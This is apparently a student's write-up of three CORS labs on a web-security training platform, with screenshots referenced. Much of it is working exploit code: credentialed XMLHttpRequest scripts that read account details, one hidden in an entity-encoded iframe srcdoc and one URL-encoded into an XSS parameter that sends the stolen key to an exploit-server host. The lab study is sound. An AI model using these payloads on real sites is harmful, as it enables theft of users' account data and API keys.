 ## First Lab
I did everything as I was supposed to do, yet I could not get the API of admin. Nevertheless, I will attach the things I have done and I honestly don't know why exploit server did not return admin api. 

The script that I used:
>     <script>
        var req = new XMLHttpRequest();
        req.open("get","0a5800e0044edab38085d064001d00b8.web-security-academy.net/accountDetails",true);
        req.onload = () => {
            window.location.href = "/malicious?key=" + req.responseText;
        }
        req.withCredentials = true;
        req.send();
      </script>
![](lab1rep.png)
![](basicOrigin.png)
## Second Lab
Second lab was almost the same as the first one, fortunately I got it working. The only difference was using an <iframe> tag and using the sandbox property to contain our malicious code in it, also we had to encode our script first, in order to avoid quotation collisions in a code. As a result, we got our api of admin, which we submitted in the home page of lab source page.
Source code: 
>     <iframe 
                    sandbox="allow-forms allow-scripts allow-top-navigation"      srcdoc="&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x76;&#x61;&#x72;&#x20;&#x72;&#x65;&#x71;&#x20;&#x3d;&#x20;&#x6e;&#x65;&#x77;&#x20;&#x58;&#x4d;&#x4c;&#x48;&#x74;&#x74;&#x70;&#x52;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x70;&#x65;&#x6e;&#x28;&#x22;&#x67;&#x65;&#x74;&#x22;&#x2c;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x30;&#x61;&#x62;&#x34;&#x30;&#x30;&#x39;&#x66;&#x30;&#x33;&#x65;&#x34;&#x33;&#x36;&#x61;&#x66;&#x38;&#x35;&#x64;&#x35;&#x32;&#x36;&#x34;&#x39;&#x30;&#x30;&#x37;&#x38;&#x30;&#x30;&#x62;&#x38;&#x2e;&#x77;&#x65;&#x62;&#x2d;&#x73;&#x65;&#x63;&#x75;&#x72;&#x69;&#x74;&#x79;&#x2d;&#x61;&#x63;&#x61;&#x64;&#x65;&#x6d;&#x79;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x61;&#x63;&#x63;&#x6f;&#x75;&#x6e;&#x74;&#x44;&#x65;&#x74;&#x61;&#x69;&#x6c;&#x73;&#x22;&#x2c;&#x74;&#x72;&#x75;&#x65;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x6e;&#x6c;&#x6f;&#x61;&#x64;&#x20;&#x3d;&#x20;&#x28;&#x29;&#x20;&#x3d;&#x3e;&#x20;&#x7b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x77;&#x69;&#x6e;&#x64;&#x6f;&#x77;&#x2e;&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x2e;&#x68;&#x72;&#x65;&#x66;&#x20;&#x3d;&#x20;&#x22;&#x2f;&#x6d;&#x61;&#x6c;&#x69;&#x63;&#x69;&#x6f;&#x75;&#x73;&#x3f;&#x6b;&#x65;&#x79;&#x3d;&#x22;&#x20;&#x2b;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x72;&#x65;&#x73;&#x70;&#x6f;&#x6e;&#x73;&#x65;&#x54;&#x65;&#x78;&#x74;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x7d;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x77;&#x69;&#x74;&#x68;&#x43;&#x72;&#x65;&#x64;&#x65;&#x6e;&#x74;&#x69;&#x61;&#x6c;&#x73;&#x20;&#x3d;&#x20;&#x74;&#x72;&#x75;&#x65;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x73;&#x65;&#x6e;&#x64;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;">
        </iframe>

![](lab2decoder.png)
![](lab2info.png)
![](lab2solved.png)

## Third Lab
We did find the Xss vulnerability through product id injection and found CORS vulnerability by trying to find the filtered origin source and we also have achieved that. However, when it came down to injecting the encoded code as we did in a second lab, we did not obtain any results and same as in a first lab work, I do not know why. 
Source code(we encoded the script code for cors vulnerability into xss code injection, cause it is url): 

>     <script>
        window.location = "http://stock.0ad700780427e2f6914a1ca600540017.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%20%20%20%20%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%20%20%20%20%20%20%20%20%72%65%71%2e%6f%70%65%6e%28%22%67%65%74%22%2c%22%68%74%74%70%73%3a%2f%2f%30%61%64%37%30%30%37%38%30%34%32%37%65%32%66%36%39%31%34%61%31%63%61%36%30%30%35%34%30%30%31%37%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%22%2c%74%72%75%65%29%3b%0a%20%20%20%20%20%20%20%20%0a%20%20%20%20%20%20%20%20%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%28%29%20%3d%3e%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%20%3d%20%22%20%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%64%30%30%30%65%64%30%34%65%36%65%32%66%63%39%31%64%38%31%62%34%36%30%31%30%38%30%30%35%36%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6b%65%79%3d%22%20%2b%20%72%65%71%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%0a%20%20%20%20%20%20%20%20%7d%0a%20%20%20%20%20%20%20%20%0a%20%20%20%20%20%20%20%20%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%0a%20%20%20%20%20%20%20%20%72%65%71%2e%73%65%6e%64%28%29%3b%0a%20%20%20%20%3c%2f%73%63%72%69%70%74%3e&storeId=1"
     </script>
![](lab3cors.png)
![](lab3xss.png)
![](lab3not.png)
![](corsfinished.png)
